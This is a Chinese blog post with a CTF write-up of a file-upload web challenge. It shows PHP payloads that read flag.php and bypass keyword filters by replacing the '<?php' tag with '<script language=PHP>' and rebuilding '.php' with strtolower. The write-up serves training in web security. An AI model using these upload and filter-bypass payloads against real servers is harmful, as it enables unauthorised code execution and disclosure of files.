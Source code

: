 ```yaml
---

layout: post
title:  CTF竞赛-文件上传
subtitle: 本文为CTF web网络攻防方向，主要记录文件上传的题目
date:   2018-03-25 18:56:31 +0800
author: "Bryce"
header-img:  'images/gallery/sappho-and-alcaeus.jpg'
tags:   [网络安全, CTF]
mathjax: true
---
```


> <cite>Title: Sappho and Alcaeus  
Creator: Lawrence Alma-Tadema  
Creator Lifespan: 1836/1912  
Creator Nationality: Dutch and British  
Date Created: 1881  
Physical Dimensions: w122 x h104.1402 cm  
Type: oil paintings; panel paintings  
Medium: oil on panel  
Artist: Sir Lawrence Alma-Tadema, R.A., O.M.  </cite>  

CTF竞赛题目类型主要包含 `Web 网络攻防` 、 `Reverse 逆向工程` 、 `Pwn 二进制漏洞利用` 、 `Crypto 密码攻击` 、 `Mobile 移动安全`  以及 `Misc 安全杂项` 这六个类别。

本文为web网络攻防方向。

## 赛题

### 初始来源

#“百度杯”CTF比赛# #九月场# #Upload#

### 赛题传送门

<a href="https://www.ichunqiu.com/battalion?t=1" target="_blank">i春秋CTF大本营</a>  

【赛题类型】—>【CTF训练】

【比赛名称】—>【全部】

【题目类型】—>【Web】

选择价值 50pt，类型为 Web，名称为【Upload】的题目：

![ctf-20180324144139821](/images/posts/ctf/ctf-20180324144139821.png)

## 解题过程

进入到靶场环境后，得到如下的初始页面：

![ctf-20180324144309647](/images/posts/ctf/ctf-20180324144309647.png)

根据题目的提示tips：flag在flag.php中，可以推测本题目是想通过上传文件，并通过执行文件读取flag.php源码，来获取flag。

先随意上传一张图片看看效果：

![ctf-20180324145416668](/images/posts/ctf/ctf-20180324145416668.png)

发现**【上传成功!】**是个超链接可以点击，点击后是查看上传文件，由此得出，可以通过文件上传来构造读取flag.php的源码。

先构造最简单直接的版本：

```php
<?php
$file = fopen("../flag.php", "r");
echo fread($file, filesize("../flag.php"));
fclose($file)
?>
```

上传后，得到

![ctf-20180324150835203](/images/posts/ctf/ctf-20180324150835203.png)

发现并没有执行，并且**php**后缀都被过滤掉了，尝试将 **?php**  使用 **<script>** 绕过，代码中的 **.php** 使用大写绕过：

```php
<script language=PHP>
$file = fopen("../flag.".strtolower("PHP"), "r");
echo fread($file, filesize("../flag.".strtolower("PHP")));
fclose($file)
</script>
```

上传后，得到：

![ctf-20180324151330884](/images/posts/ctf/ctf-20180324151330884.png)

此时并没有输出错误，说明执行成功了，**【F12】查看网页源码**：

![ctf-20180324151407995](/images/posts/ctf/ctf-20180324151407995.png)

至此，得到flag。

## 总结

本题目相对简单，主要考察php文件读取，以及简单的针对关键字过滤的绕过技巧。
